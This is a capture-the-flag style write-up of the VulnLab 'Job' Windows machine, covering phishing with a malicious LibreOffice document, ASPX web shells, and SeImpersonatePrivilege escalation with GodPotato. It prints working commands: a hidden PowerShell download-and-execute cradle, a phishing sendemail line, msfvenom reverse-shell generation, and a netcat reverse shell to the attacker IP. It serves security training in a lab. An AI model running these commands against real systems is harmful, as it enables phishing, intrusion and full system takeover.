

# VulnLab - Job Writeup



Job is a Windows VulnLab machine that chains email phishing, malicious document delivery, web shell access, and local privilege escalation. The initial foothold comes from sending a crafted ODT file by email, and the final SYSTEM shell is obtained by abusing SeImpersonatePrivilege with GodPotato.

## Summary

The machine exposes SMTP, HTTP, SMB, and RDP. The website reveals a single contact address, `career@job.local`, and instructs applicants to send resumes as LibreOffice documents.

I used that workflow to send a malicious ODT file that triggered an outbound callback and gave me a shell as `jack.black`. From there I found write access to the web root, uploaded an ASPX payload, and used that to obtain a more stable shell under the IIS application pool.

The final privilege escalation came from `SeImpersonatePrivilege`, which allowed GodPotato to elevate the low-privileged web shell to SYSTEM. That yielded the root flag.

## Enumeration

The Nmap scan showed a very small attack surface with SMTP on port 25, IIS on port 80, SMB on 445, and RDP on 3389.

```bash
nmap -sV -sC -Pn 10.10.114.36
```

The results identified the host as `JOB` and the domain as `job.local`. SMB signing was enabled but not required, and the web server identified itself as `Job.local`.

## Web and Email

The website displayed one email address:

- `career@job.local`

It also stated that resumes should be sent as LibreOffice documents. That was the clue that the attack path would likely involve a malicious office file rather than a direct web exploit.

## Phishing Foothold

I built a malicious ODT file using Metasploit’s OpenOffice document macro module and sent it with `sendmail`.

```bash
msfconsole
use auxiliary/fileformat/odt_badodt
```

then you have to set the command to be a revershell , 

```bash 

msf6 > set payload windows/x64/exec
payload => windows/x64/exec
msf6 > set LHOST 10.8.2.138
LHOST => 10.8.2.138
msf6 > set LPORT 80
LPORT => 80
msf6 > set cmd "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.2.138/shell.txt');"
cmd => powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.2.138/shell.txt');
```
Then I setup the shell.txt and setup the web server for the target to send requst and grab the shell ,

Then I delivered it to the target mailbox:

```bash
sendemail -s job.local -f "puck <puck@vulnlab.com>" -t career@job.local -o tls=no -m "hey pls check my resume  http://10.8.2.138/test" -a bad.odt
```

The victim opened the attachment and triggered a callback, which get us a revershell as jack.black.

## Initial Shell

The document-based payload eventually led to a shell as `job\jack.black`. I confirmed the user context and grabbed the user flag.

```powershell
whoami
type C:\Users\jack.black\Desktop\user.txt
```

At this point I had code execution, but the shell was not yet ideal for post-exploitation.

## Web Root Access

Exploring `C:\inetpub\wwwroot` showed that the web root was writable or at least usable for payload delivery. I downloaded a simple ASPX web shell and a reverse shell payload into the directory.

```powershell
dir C:\inetpub\wwwroot
curl http://10.8.2.138/cmdasp.aspx -o cmdasp.aspx
curl http://10.8.2.138/reverse.aspx -o reverse.aspx
```

After uploading the ASPX payload, I requested it through the browser and received a shell as the IIS application pool user.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.138 LPORT=9001 -f aspx > reverse.aspx
curl http://job.local/reverse.aspx
```

That improved stability and gave me a better foothold for privilege escalation and we can use the privilege that we get from the web account to turn it into privilege escalation.

## SYSTEM Escalation

The server had `SeImpersonatePrivilege` enabled, which meant a potato-style escalation was viable. I used GodPotato to spawn a SYSTEM shell through the web context.

```powershell
.\gp.exe -cmd "C:\temp\nc64.exe -e cmd.exe 10.8.2.138 3232"
```

The exploit confirmed token impersonation worked, and the resulting shell ran as `NT AUTHORITY\SYSTEM`. That made it possible to read the administrator flag directly.

```powershell
whoami
type C:\Users\Administrator\Desktop\root.txt
```

## Attack Path

- Enumerate SMTP, IIS, SMB, and RDP.
- Discover `career@job.local`.
- Send a malicious LibreOffice document with `sendmail`.
- Catch the callback and obtain a shell as `jack.black`.
- Inspect the web root and upload an ASPX shell.
- Obtain a more stable shell as `IIS APPPOOL\DefaultAppPool`.
- Abuse `SeImpersonatePrivilege` with GodPotato.
- Get SYSTEM and read the root flag.
